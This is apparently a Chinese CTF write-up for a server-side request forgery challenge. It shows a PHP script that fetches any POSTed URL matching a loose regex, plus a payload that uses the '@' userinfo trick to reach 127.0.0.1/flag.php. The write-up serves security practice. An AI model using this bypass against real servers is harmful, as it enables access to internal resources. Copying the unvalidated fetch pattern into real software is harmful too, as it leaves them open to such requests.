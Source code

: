 # 知识点：
@ #  ?用法
# 思路：
正则表达式意思以 http://ctf. 开头 以show结尾 不限大小写
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```
payload
```
url=http://ctf.@127.0.0.1/flag.php#show
# url=http://ctf.@127.0.0.1/flag.php?show
```
![image.png](./images/20231017_2354477901.png)
